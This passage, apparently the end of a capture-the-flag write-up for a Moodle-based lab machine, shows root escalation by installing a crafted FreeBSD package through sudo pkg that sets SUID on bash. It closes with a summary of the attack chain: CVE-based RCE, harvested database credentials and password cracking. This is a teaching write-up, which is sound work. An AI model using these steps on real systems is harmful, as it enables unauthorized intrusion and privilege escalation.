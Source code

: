 We need to extract it using the following command:

```
[jamie@Schooled ~]$ sudo pkg install -y --no-repo-update ./x-1.0.txz 
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
Extracting x-1.0:   0%
pkg: File //41828.php not specified in the manifest
Extracting x-1.0: 100%
[jamie@Schooled ~]$
```

Finally, we simply run "bash -p" to get root privileges:

```
[jamie@Schooled ~]$ bash -p
[jamie@Schooled ~]# id
uid=1001(jamie) gid=1001(jamie) euid=0(root) groups=1001(jamie),0(wheel)
[jamie@Schooled ~]#
```

We can now grab the root flag.

## Summary

This was a great box to learn some very useful techniques. The foothold was the most frustrating part of this box, as it required a number of steps that a beginner would have found to be quite challenging. This included finding the "VHOST" running on the target system. After that we had to use two CVE's to get RCE on the box which finally resulted in a shell.

Once we were on the box, we had to find the password for the user "jamie". This was done by first finding the moodle config.php file, which contained creds for the mysql database. We then had to update our $PATH environment variable in order to run most of the programs on the system, including mysql. We were then able to successfully login to mysql and find the encrypted password for the target user. Finally, we used "john" to crack the password and then logged in as "jamie".

To get to root, we checked the commands "jamie" could run as root via "sudo -l". The "pkg" binary was in the list, and a quick check of GTFOBins lead us on the path to root. We simply had to create a new FreeBSD package using the "fpm" ruby program. The packaged file simply changed the SUID bit on /bin/bash. Once we uploaded the package and installed it, all that was left to do was to run bash to get a shell as root.

## Resources

{% embed url="https://deadliestwebattacks.com/2010/05/18/cross-site-tracing-xst-the-misunderstood-vulnerability/" %}

{% embed url="https://github.com/inc0d3/moodlescan" %}

{% embed url="https://github.com/HoangKien1020/CVE-2020-25627" %}

{% embed url="https://www.exploit-db.com/exploits/50180" %}

